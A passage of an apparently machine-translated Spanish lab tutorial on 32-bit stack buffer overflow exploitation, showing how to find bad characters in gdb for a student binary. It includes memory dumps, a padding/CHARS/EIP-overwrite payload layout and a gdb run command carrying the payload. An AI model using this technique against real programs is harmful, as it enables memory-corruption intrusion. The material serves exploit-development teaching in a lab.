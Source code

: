 Aquí reconocemos en qué dirección `\x55`comienza nuestro " ". A partir de aquí, podemos ir más abajo y buscar el lugar donde `CHARS`comienza nuestro " ".

```shell-session
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
												 # |---> CHARS begin

0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>
```

Vemos dónde `\x55`termina nuestro " " y dónde `CHARS`comienza la variable. Pero si lo observamos de cerca, veremos que comienza con " `\x01`" en lugar de " `\x00`". Ya hemos visto la advertencia durante la ejecución de que `null byte`se ignoró el en nuestra entrada.

Así que podemos tomar nota de este carácter, eliminarlo de nuestra variable `CHARS`y ajustar el número de nuestro " `\x55`".

```shell-session
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
 CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
 
   EIP = "\x66" * 4
```

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```
